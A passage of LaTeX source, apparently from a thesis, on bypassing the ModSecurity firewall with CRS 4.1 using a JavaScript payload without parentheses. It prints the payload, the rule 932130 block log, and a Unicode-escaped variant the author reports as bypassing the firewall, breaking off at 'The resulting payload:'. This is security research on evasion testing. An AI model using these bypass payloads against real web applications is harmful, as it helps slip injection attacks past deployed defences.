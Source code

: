 \subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of evaluating the ModSecurity firewall using \acrshort{crs} 4.1 with firewall evasion techniques, the author faced the question if it was possible to create payloads without using parenthesis: \verb|()|. Those payloads still need to be valid and successfully bypass the evaluated firewall configuration.
Considering the bypassing payload shown in Listing~\ref{lst:funconbypasssbn} stated under Section~\ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals, as proposed under Section~\ref{sec:taggedtemplateliterals}, forming the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```
\end{lstlisting}
This payload caused another firewall rule to trigger:

\begin{lstlisting}[style=ruleStyle, language=XML, caption={Avoiding () blocked}, label={lst:avoiding () blocked}]
<payload>[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s${s}`'}```</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${s}"</MatchedData>
\end{lstlisting}
Evading rule \verb|932130| was possible by using Unicode code point escaping in JavaScript as proposed under Section~\ref{sec:jsescape}. The character sequence \verb|${s}| was replaced with \verb|\u{0024}{s}|:

\begin{lstlisting}[style=basicStyle, language=Python]
[]['constructor']['constructor']`${'var s = "secret";promp'+'t`s\u{0024}{s}`'}```
\end{lstlisting}
This made the payload bypass the ModSecurity firewall using \acrshort{crs} 4.1. During validating, the bypassing payload triggered an error when parsing the request body with \verb|JSON.parse()|. A similar case was mentioned under Section~\ref{sec:jsescapesingleiter}. As the Unicode code point escape is used within a string in this payload, percent encoding is not neccessary. Instead, the back-slash in the character sequence \verb|s\u{0024}| was escaped by prepending it with another back-slash. RFC4627: The application/json Media Type for JavaScript Object Notation (JSON) states that in JSON:
\begin{quote}
	there are two-character sequence escape representations of some popular characters.  So, for example, a string containing only a single reverse solidus character may be represented more compactly as \quotes{\textbackslash \textbackslash }. \cite{rfc4627}
\end{quote}
The resulting payload:

